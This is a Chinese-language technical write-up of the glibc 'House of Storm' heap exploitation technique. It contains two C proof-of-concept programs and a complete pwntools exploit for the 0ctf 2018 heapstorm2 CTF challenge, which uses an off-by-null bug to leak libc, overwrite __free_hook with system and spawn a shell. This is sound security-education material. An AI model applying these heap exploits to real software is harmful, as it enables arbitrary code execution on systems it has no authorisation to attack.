





## House of storm

 漏洞利用条件:
1.需要攻击者在`largebin`和`unsorted_bin`中分别布置一个chunk 这两个chunk需要在归位之后处于同一个`largebin`的index中且`unsortedbin`中的chunk要比`largebin`中的大
2.需要`unsorted_bin`中的`bk指针`可控
3.需要`largebin`中的`bk指针和bk_nextsize`指针可控 

#### poc1(pie open)

pie开启情况

house of storm效果：控制target

```c
// compiled: gcc -g -fPIC -pie House_of_Strom.c -o House_of_Strom
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct {
    char padding[0x10]; // NULL padding
    char sh[0x10];
}global_container = {"","id"};

int main()
{
    char *unsorted_bin, *large_bin, *fake_chunk, *ptr;

    unsorted_bin = malloc(0x4f0-8); // size 0x4f0
    // 防止合并
    malloc(0x18);
    large_bin = malloc(0x4e0-8); // size 0x4e0
    // 防止合并
    malloc(0x18);

    // FIFO
    free(large_bin); // 先放小的chunk
    free(unsorted_bin);

    // large_bin 归位
    unsorted_bin = malloc(0x4f0-8);
    // unsorted_bin 归位
    free(unsorted_bin);
//==============line============
    fake_chunk = global_container.sh - 0x10;

    ((size_t *)unsorted_bin)[0] = 0; // unsorted_bin->fd
    ((size_t *)unsorted_bin)[1] = (size_t)fake_chunk; // unsorted_bin->bk

    ((size_t *)large_bin)[0] = 0; // large_bin->fd
    // 用于创建假块的“bk”，以避免从未排序的bin解链接时崩溃
    ((size_t *)large_bin)[1] = (size_t)fake_chunk + 8; // large_bin->fd
    ((size_t *)large_bin)[2] = 0; // large_bin->fd_nextsize
    // 用于使用错误对齐技巧创建假块的“大小”
    ((size_t *)large_bin)[3] = (size_t)fake_chunk - 0x18 - 5; // large_bin->bk_nextsize

    ptr = malloc(0x48);
    strncpy(ptr, "/bin/sh", 0x48 - 1);
    system(global_container.sh);

    return 0;
}
```

执行到==============line=================的时候，完成了unsorted bin和large bin各一个chunk，并且unsorted bin中的chunk更大



执行malloc(0x48)的过程草图（很草）


返回的指针：sh指向的地方。


#### poc2(no pie)

```c
// compiled: gcc -g -no-pie House_of_Strom.c -o House_of_Strom
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct {
    char padding[0x10]; // NULL padding
    char sh[0x10];
}global_container = {"","id"};

int main()
{
    char *unsorted_bin, *large_bin, *fake_chunk, *ptr;

    unsorted_bin = malloc(0x4e8); // size 0x4f0
    // 防止合并
    malloc(0x18);
    large_bin = malloc(0x4d8); // size 0x4e0
    // 防止合并
    malloc(0x18);

    // FIFO
    free(large_bin); // 先放小的chunk
    free(unsorted_bin);

    // large_bin 归位
    unsorted_bin = malloc(0x4e8);
    // unsorted_bin 归位
    free(unsorted_bin);

    fake_chunk = global_container.sh - 0x10;

    ((size_t *)unsorted_bin)[0] = 0; // unsorted_bin->fd
    ((size_t *)unsorted_bin)[1] = (size_t)fake_chunk; // unsorted_bin->fd

    ((size_t *)large_bin)[0] = 0; // large_bin->fd
    // 用于创建假块的“bk”，以避免从未排序的bin解链接时崩溃
    ((size_t *)large_bin)[1] = (size_t)fake_chunk + 8; // large_bin->fd
    ((size_t *)large_bin)[2] = 0; // large_bin->fd_nextsize
    // 用于使用错误对齐技巧创建假块的“大小”
    ((size_t *)large_bin)[3] = (size_t)fake_chunk - 0x18 - 2; // large_bin->bk_nextsize

    ptr = malloc(0x58);
    strncpy(ptr, "/bin/sh", 0x58 - 1);
    system(global_container.sh);

    return 0;
}
```

 原理和有PIE的情况是一样的，但是受随机化的影响，chunk的地址可能是`0x610000-0x25d0000`的任意一个内存页，所以概率是`1/32`，相对于有PIE的`1/3`的概率要小很多。 


#### 0ctf_2018_heapstorm2

程序提供了申请、编辑、释放、打印的功能，且打印只有在满足一定条件的情况下才会进行，默认时无法进行打印的。程序调用了`mallopt(1, 0)`使得程序没有fastbin，且通过mmap出来的内存地址`0x13370800`管理堆块，漏洞只有在编辑函数中存在一个`off-by-null`的漏洞。

可以使用`off-by-null`漏洞构造overlap chunk，但是无法泄露地址，只有一个已知的地址`0x13370800`，因此可以利用house of storm实现任意地址申请，将`0x13370800`申请出来，将该处内存块申请出来以后，我们就可以修改相应数据来实现可以打印，后续也可修改指针来实现任意地址读写，最后修改`__free_hook`为`system`拿到shell。

**init_data**


利用mallopt函数将fastbin关闭，并且通过mmap函数分配一段地址空间，空间的范围为0x13370000-0x13371000，通过fd=open("/dev/urandom",0)去获取随机数，并往0x13370800地址开始写入24个字节。

for循环是将mmap开辟的地址填充随机数异或后的结果。

**add**



 输入的size值的范围为0xc-0x1000，并且得到的堆块地址以及输入的size会通过异或再存入mmap的地址段中。 


**delete**



**show**



 show函数打印有前提条件，因此程序刚开始是不可以输入信息的，需要修改后才能输出。 


**edit**



exp

```python
from pwn import *

#r = remote("node3.buuoj.cn", 26141)
r = process("./0ctf_2018_heapstorm2")

context.log_level = 'debug'

elf = ELF("./0ctf_2018_heapstorm2")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
one_gadget_16 = [0x45216,0x4526a,0xf02a4,0xf1147]

menu = "Command: "
def add(size):
	r.recvuntil(menu)
	r.sendline('1')
	r.recvuntil("Size: ")
	r.sendline(str(size))

def delete(index):
	r.recvuntil(menu)
	r.sendline('3')
	r.recvuntil("Index: ")
	r.sendline(str(index))

def show(index):
	r.recvuntil(menu)
	r.sendline('4')
	r.recvuntil("Index: ")
	r.sendline(str(index))

def edit(index,content):
	r.recvuntil(menu)
	r.sendline('2')
	r.recvuntil("Index: ")
	r.sendline(str(index))
	r.recvuntil("Size: ")
	r.sendline(str(len(content)))
	r.recvuntil("Content: ")
	r.send(content)


add(0x18)#0
add(0x508)#1
add(0x18)#2
add(0x18)#3
add(0x508)#4
add(0x18)#5
add(0x18)#6

edit(1, 'a'*0x4f0+p64(0x500))
delete(1)
edit(0, 'a'*(0x18-12))
add(0x18)#1
add(0x4d8)#7
delete(1)
delete(2)
add(0x38)#1
add(0x4e8)#2

edit(4, 'a'*0x4f0+p64(0x500))
delete(4)
edit(3, 'a'*(0x18-12))
add(0x18)#4
add(0x4d8)#8
delete(4)
delete(5)
add(0x48)#4

delete(2)
add(0x4e8)#2
delete(2)

storage = 0x13370800
fake_chunk = storage - 0x20
payload = '\x00' * 0x10 + p64(0) + p64(0x4f1) + p64(0) + p64(fake_chunk)
edit(7, payload)
payload = '\x00' * 0x20 + p64(0) + p64(0x4e1) + p64(0) + p64(fake_chunk+8) + p64(0) + p64(fake_chunk-0x18-5)
edit(8, payload)

add(0x48) #0x133707e0
payload = p64(0)*4 + p64(0) + p64(0x13377331) + p64(storage)
edit(2, payload)

payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(fake_chunk+3) + p64(8)
edit(0, payload)

show(1)
r.recvuntil("]: ")
heap = u64(r.recv(6).ljust(8, '\x00'))
success("heap:"+hex(heap))

payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(heap+0x10) + p64(8)
edit(0, payload)

show(1)
r.recvuntil("]: ")
malloc_hook = u64(r.recv(6).ljust(8, '\x00')) -0x58 - 0x10
libc.address = malloc_hook - libc.sym['__malloc_hook']
free_hook = libc.sym['__free_hook']
system = libc.sym['system']
success("malloc_hook:"+hex(malloc_hook))

payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(free_hook) + p64(0x100) + p64(storage+0x50) + p64(8) + '/bin/sh\x00'
edit(0, payload)
edit(1, p64(system))
delete(2)

r.interactive()

```


参考文章

[https://www.anquanke.com/post/id/203096](https://www.anquanke.com/post/id/203096)

[https://blog.csdn.net/qq_38154820/article/details/107075631](https://blog.csdn.net/qq_38154820/article/details/107075631)